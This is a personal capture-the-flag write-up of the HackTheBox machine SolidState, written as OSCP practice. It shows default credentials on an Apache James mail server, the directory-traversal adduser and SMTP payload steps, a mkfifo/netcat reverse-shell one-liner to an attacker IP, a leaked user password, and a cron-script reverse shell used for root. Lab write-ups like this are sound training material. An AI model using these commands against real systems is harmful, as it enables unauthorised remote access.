 
Name: SolidState
Date:  
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Learning to email like a boomer, regaining a mixture of respect and  
- Weird Ports are sometimes the  target and normality is rabbithole
- Rick Sanchez "Measure twice, cut once" - Read twice, cut once
- Telnet `ctrl + $escapekey` - harder than vim exiting for my brain.

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

Little did I know this was going to be the equivent of Going Postal, except I just get kept in the cell till I eat the walls away with learn how to email people -  like real life. I am not an email person. Maybe one day I will be. Hopeful soon I will ajust to the discord server post covid world.

## Recon
The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

Using default credentials
![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; performs version checks, creates a user that will be receiving the payload 
```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of Mail servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)

I misread and assume the below. The `>` is required for the addressing format.
```bash
# These line we mistaken
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest. 
```

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

Instead of climbing down to lesser quality hour, but using ZAP as I check everything except jquery versions as xxs is not really what is required or useful foothold on box CVE-2020-11023, CVE-2020-11022, CVE-2015-9251 and CVE-2019-11358. There are no parametres. I reset the box encase of any potential I may have errors.  I [peaked at both Ivan's](https://ivanitlearning.wordpress.com/2020/08/23/hackthebox-solidstate/) - saw "reading emails" subsection title  and was it and enough. My excuse/reasoning as to why is my confusion with a similar box like this were password resets made no difference it seemed. It also seems like a really unethical thing to do if you were pentesting or redteaming... I suppose you could change it back shortly after, but still. Nevermind. I have been training myself to be more "hunt the shine things" with THM AD Red teaming stuff and playing a bit of Hacknet. I am not as fixated by constant email/ social media checking as other people seem to be. I feel that this does not deserve demotion to helped-through, yet. But that was last strike. If need it again or change my mind this is here for the record.

So I did the thing...
![](reseteveryone.png)

To make it easy for my idiot self. Then I remembered that I put this:

Took this to double check mailing addresses in exploit - metasploit does not 
![](potential.png)
...in my notes for two reason, acted on check one, but not the other. My bad. Added Email to Noting Template. To remember. Then remember that port 25 is not 110...

```
VRFY james@solid-state-security.com
VRFY john@solid-state-security.com
VRFY thomas@solid-state-security.com
VRFY mindy@solid-state-security.com
VRFY mailadmin@solid-state-security.com
# I tried 
ehlo # my ip, there ip, solid-state-security.com
# All ERR
```

https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019

![](cluesinthemail.png)

As not fan of emails general it is rather strange that the old versions are **this clunky**. It been almost a year since I hacked email ports.

![](poormindy.png)

`mindy : P@55W0rd1!2@`


## Exploit  & Foothold &  PrivEsc

Mindy is not powerful enough to know herself.
![](mindyisnotpowerfulenoughtoknowherself.png)

So with all my tryharding, which is positive. I did not need to edit code. I did not need to really understand the vulnerability. I enumerate and almost died trying. If my cheatsheets were up to par on POP3 this would have been a breeze. 

![1000](scriptfailed.png)

Retried and boom
![](retriedandbooom.png)

![](env.png)

We need to escape the rbash shell. We sort of escape it as much as possible with exploit or 
`ssh -t "bash --noprofile"`
![](what.png)


There is no sudo on this box. James is on the box.

Linpeas list:

- no gcc or cc or make so no:
Vulnerable to CVE-2021-4034 
Potentially Vulnerable to CVE-2022-2588
Potential pwnkit.

chmod 777 the bin directory to enumerate. 
![](chmodingthebin.png)

127.0.0.1 631

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
/opt/tmp.py

Although I could not run pspy64 due to restricted shell this seems like a script that is scheduled with cronjob
![](tmptmp.png)

Copying a back up to /home/mindy I added a simple bash reverse shell.

![](reverseshellattempt.png)

Root
![](root.png)

